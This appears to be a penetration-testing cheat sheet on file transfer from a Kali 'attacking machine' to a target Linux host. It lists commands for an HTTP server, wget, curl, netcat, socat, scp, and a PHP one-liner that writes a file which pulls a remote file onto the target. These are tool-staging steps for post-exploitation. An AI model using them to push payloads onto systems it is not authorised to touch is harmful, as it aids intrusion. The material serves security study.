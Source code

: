 ## Kali Machine(Attacking machine)- We need to start the http server to serve the files so that other systems can access it.

### HTTP Server
```bash
python -m SimpleHTTPServer 80
python -m http.server 80
```

### Wget
```bash
wget http://192.168.1.2/filename.txt
```

### Curl
```bash
curl http://192.168.1.2/filename.txt -o filename.txt
```

## Netcat

### Target Linux
```bash
nc -nlvp 4444 > outputfile.exe
```
### Kali
```bash
nc -nv 192.168.1.2 4444 < /usr/inputfile.exe
```

## Socat
### Kali
```bash
socat TCP4-LISTEN:443,fork file:file.txt
```
### Target Linux
```bash
socat TCP4:192.168.1.2:443 file:file.txt,create
```

### SCP
```bash
scp /source/path/file.zip username@192.168.1.2:/destination/path/file.zip
```

### PHP
```bash
echo "<?php file_put_contents('filename', fopen('http://192.168.1.2/filename', 'r')); ?>" > filename.php
```
